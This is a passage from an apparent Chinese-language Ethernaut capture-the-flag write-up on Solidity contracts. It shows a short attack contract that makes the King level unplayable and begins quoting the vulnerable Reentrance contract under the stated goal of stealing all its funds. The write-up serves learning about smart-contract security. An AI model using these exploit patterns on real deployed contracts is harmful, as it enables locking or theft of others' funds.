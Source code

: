 所以，我们只需部署一个无接受转账函数的合约，利用它往该合约转账相应金额成为` king `即可；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function getKing(address payable addr) public payable {
        // 使用call，以防对面的接收函数实现了复杂逻辑
        (bool success, )= addr.call{value:msg.value}("");
        require(success, "Fail");
    }
}
```

![image-20250105171117474](./assets/image-20250105171117474.png)





## Level_10.Re-entrancy

要求：

> 偷完该合约所有资金；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;
    // 捐赠
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
    // 查询余额
```